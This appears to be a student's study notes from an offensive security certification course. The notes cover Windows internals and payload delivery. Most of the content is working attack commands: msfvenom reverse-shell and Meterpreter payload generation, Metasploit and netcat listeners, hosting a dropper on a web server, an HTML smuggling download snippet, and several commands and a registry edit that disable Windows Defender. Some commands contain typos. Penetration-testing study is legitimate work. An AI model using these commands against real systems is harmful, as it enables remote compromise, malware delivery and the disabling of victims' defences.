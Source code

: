 password: @Hide01

# generating payloads from meterpreter

```s
    msfvenom -p windows/x64/meterpreter/reverse_https -a x64 LHOST=10.10.6.12 LPORT=4443 EXITFUNC=thread -f ps1.
```
for starting reverse handler in msfconsole use
```s
    use exploit/multi/handler
    set payload windows/x64/meterpereter/reverse_https
    set lhost
    set lport
    exploit
```
To send any session to background use bg
  list sessions using 'sessions'
  start interacting with a session using session number 'sessions 1'

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

### space racoon advice

https://spaceraccoon.dev/offensive-security-experienced-penetration-tester-osep-review-and-exam

# starting and stopping windows defender

https://www.itechtics.com/enable-disable-windows-defender/#:~:text=1%20How%20To%20Disable%20Windows%20Defender%20Using%20Command,again%2C%20run%20the%20following%20command%3A%20sc%20start%20WinDefend

Open command prompt with administrative privileges
Run the following command to disable Windows Defender:
sc stop WinDefend
To enable Windows defender again, run the following command:
sc start WinDefend
Please note that this is a temporary method to stop Windows Defender. The service will return to its original state once the system is restarted. To disable Windows Defender permanently using the command prompt, run the following command:

```
sc config WinDefend start= disabled
sc stop WinDefend

To enable it again on startup, run the following commands:

sc config WinDefend start= auto
sc start WinDefend

If you want to check the current state of the Windows Defender service, run the following command:

sc query WinDefend

Check the STATE variable. It should be in RUNNING state if it is enabled.
```

```
Run PowerShell with administrative privileges (Windows key + X + A)
To disable real-time monitoring for Windows Defender, run the following command:
Set-MpPreference -DisableRealtimeMonitoring $true
To enable real-time monitoring, run the following command:
Set-MpPreference -DisableRealtimeMonitoring $false
```

```
Go to Run –> regedit. This will open the Windows Registry Editor.
Navigate to the following key:
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender
In the right pane, right-click the empty area and create a new DWORD (32-bit) value.

Rename the new item to DisableAntiSpyware
Double-click DisableAntiSpyware and change its value to 1.
Windows Defender will not load after the next computer restart. To enable Windows Defender again, you can either delete the created registry key or simply change its value to 0.
```






